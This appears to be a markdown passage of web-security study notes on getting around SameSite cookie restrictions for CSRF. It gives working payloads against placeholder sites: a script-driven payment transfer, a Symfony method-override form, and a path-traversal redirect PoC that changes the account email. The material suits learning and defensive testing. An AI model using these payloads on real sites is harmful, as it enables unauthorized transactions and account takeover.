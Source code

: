 ## Bypassing SameSite Lax restrictions using GET requests

As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. The following is one of the simplest approaches to launching such an attack: 

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Some frameworks provide ways of overriding the method specified in the request line. Here an example of `Symfony`:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="GET">
    <input type="hidden" name="_method" value="POST">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

## Bypassing SameSite restrictions using on-site gadgets

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site.  Try to find a client-side redirect. 

Example:

```
https://example.com/post/comment/confirmation?postId=1234
```
Redirect to:

```
https://example.com/post/1234
```

Try:

```
https://example.com/post/comment/confirmation?postId=1234../../../../../../my-account/change-email%3femail=test2@test.com%26submit=1
```

In order to get redirected to:

```
https://example.com/my-account/change-email?email=test2@test.com&submit=1
```

Finally generate the CSRF poc.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://example.com/post/comment/confirmation">
      <input type="hidden" name="postId" value="1234&#46;&#46;&#47;&#46;&#46;&#47;&#46;&#46;&#47;&#46;&#46;&#47;&#46;&#46;&#47;&#46;&#46;&#47;my&#45;account&#47;change&#45;email&#63;email&#61;test4&#64;test&#46;com&amp;submit&#61;1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```